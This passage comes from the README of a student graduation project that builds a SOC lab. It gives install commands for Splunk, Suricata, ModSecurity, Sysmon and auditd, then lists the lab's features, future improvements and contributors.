wget -O splunk.deb "https://download.splunk.com/products/splunk/releases/latest/linux/splunk-latest-linux-amd64.deb"
sudo dpkg -i splunk.deb
sudo /opt/splunk/bin/splunk start --accept-license
sudo /opt/splunk/bin/splunk enable boot-start
```

Configure indexes in `indexes.conf`, then enable the HTTP Event Collector for n8n webhook-triggered alert actions.

</details>

<details>
<summary><b>2️⃣ Suricata</b></summary>

```bash
sudo apt update
sudo apt install suricata -y
sudo suricata-update
sudo nano /etc/suricata/suricata.yaml   # set HOME_NET, enable EVE JSON output
sudo systemctl enable --now suricata
```

</details>

<details>
<summary><b>3️⃣ Apache</b></summary>

```bash
sudo apt install apache2 php libapache2-mod-php php-ldap -y
sudo a2enmod rewrite headers
sudo systemctl enable --now apache2
```

</details>

<details>
<summary><b>4️⃣ ModSecurity + OWASP CRS</b></summary>

```bash
sudo apt install libapache2-mod-security2 -y
sudo a2enmod security2
cd /etc/modsecurity
sudo cp modsecurity.conf-recommended modsecurity.conf
sudo git clone https://github.com/coreruleset/coreruleset.git /etc/modsecurity/crs
sudo cp /etc/modsecurity/crs/crs-setup.conf.example /etc/modsecurity/crs/crs-setup.conf
sudo systemctl restart apache2
```

</details>

<details>
<summary><b>5️⃣ Sysmon (Windows)</b></summary>

```powershell
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "Sysmon.zip"
Expand-Archive Sysmon.zip -DestinationPath .\Sysmon
.\Sysmon\sysmon64.exe -accepteula -i sysmonconfig.xml
```

</details>

<details>
<summary><b>6️⃣ Splunk Universal Forwarder</b></summary>

```bash
wget -O splunkforwarder.deb "https://download.splunk.com/products/universalforwarder/releases/latest/linux/splunkforwarder-latest-linux-amd64.deb"
sudo dpkg -i splunkforwarder.deb
sudo /opt/splunkforwarder/bin/splunk start --accept-license
sudo /opt/splunkforwarder/bin/splunk add forward-server <indexer-ip>:9997
sudo /opt/splunkforwarder/bin/splunk add monitor /var/log/apache2/access.log -index web_index
```

</details>

<details>
<summary><b>7️⃣ DHCP Server</b></summary>

```bash
sudo apt install isc-dhcp-server -y
sudo nano /etc/dhcp/dhcpd.conf     # define subnet, range, lease log path
sudo systemctl enable --now isc-dhcp-server
```

</details>

<details>
<summary><b>8️⃣ auditd</b></summary>

```bash
sudo apt install auditd audispd-plugins -y
sudo nano /etc/audit/rules.d/audit.rules
sudo systemctl enable --now auditd
```

</details>

---

## ✨ Features

- 🔍 End-to-end log pipeline from network devices, endpoints, IDS, and WAF into Splunk
- 🧠 Custom correlation searches for reconnaissance, brute force, and web-layer attacks
- 🤖 Fully automated SOAR response using n8n, with no manual intervention required
- 🌍 Threat intelligence enrichment via AbuseIPDB before any containment action
- 🔥 Automatic attacker containment and release on the FortiGate firewall via API
- 📧 Real-time email notifications for every alert and every response action
- 🏢 Realistic enterprise identity integration through Active Directory and LDAP
- 🧪 A dedicated vulnerable web application used purely for attack simulation and log generation
- 📊 Custom Splunk dashboards for SOC-style monitoring and triage
- 🗂️ Clean separation of indexes by log source for faster, more targeted searching

---

## 🚀 Future Improvements

- Integrate additional threat intelligence feeds beyond AbuseIPDB (e.g., VirusTotal, OTX)
- Expand the n8n SOAR workflows into a broader automated case-management process
- Add machine learning-based anomaly detection to complement signature-based rules
- Deploy an EDR agent for deeper endpoint visibility and response capability
- Extend Active Directory integration to detect lateral movement and privilege escalation
- Add email security monitoring for phishing-based attack scenarios
- Extend log collection to cloud environments (AWS/Azure) for hybrid visibility
- Build dedicated threat hunting dashboards for proactive investigation
- Increase MITRE ATT&CK technique coverage across detection use cases
- Integrate automated ticket creation for every triggered incident

---

## 👥 Contributors

| Name               | Role                                                      |
| ------------------ | --------------------------------------------------------- |
| Mohamed Sami       | Project Lead — Infrastructure & Network Security Engineer |
| Nourhan Tamer      | Attacks Scenario 1 — Penetration Tester                   |
| Roaa Ayman         | Attacks Scenario 2 — Penetration Tester                   |
| Abdelrahman Mosaad | Investigation Scenario 1 — SOC Analyst                    |
| Islam Ahmed        | Investigation Scenario 2 — SOC Analyst                    |
| Hamed Mabrouk      | SOAR Development — CyberSecurity Engineer                 |

---

<div align="center">

**Built as part of a graduation project in Network and Cybersecurity Engineering**

⭐ If you found this project useful, consider giving it a star.

</div>
